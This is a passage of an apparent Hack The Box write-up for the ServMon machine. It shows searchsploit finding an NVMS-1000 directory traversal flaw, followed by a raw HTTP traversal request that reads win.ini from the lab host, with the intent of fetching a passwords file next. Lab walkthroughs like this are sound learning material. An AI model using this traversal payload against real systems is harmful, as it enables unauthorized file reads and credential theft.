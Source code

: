 ![Login panel](/assets/htb/ServMon/webpage-index.png)

This seems to be running `NVMS-1000`. Let us use searchsploit to see if we find any exploit for it.

```bash
root@darkness:~# searchsploit 'NVMS 1000'
----------------------------------------------------------- ----------------------------------------
 Exploit Title                                             |  Path
                                                           | (/usr/share/exploitdb/)
----------------------------------------------------------- ----------------------------------------
NVMS 1000 - Directory Traversal                            | exploits/hardware/webapps/47774.txt
----------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Searchsploit returns us a [directory traversal vulnerability](https://www.exploit-db.com/exploits/47774). The POC shows that if vulnerable, the application is prone to arbitrary file-read!

### Exploiting Directory Traversal in NVMS-1000
Let us first verify if the target is vulnerable by reading `win.ini`. Using Burp repeater we can send requests like this easily.

```http
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
Accept: text/html
Connection: close
```
Sending a request like this should give us win.ini, if the target is vulnerable.

```http
HTTP/1.1 200 OK
Content-type:
Content-Length: 92
Connection: close
AuthInfo:

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
Seems like the target is vulnerable and with the Passwords.txt file still in mind, let us try to retrieve that file from Nathans desktop.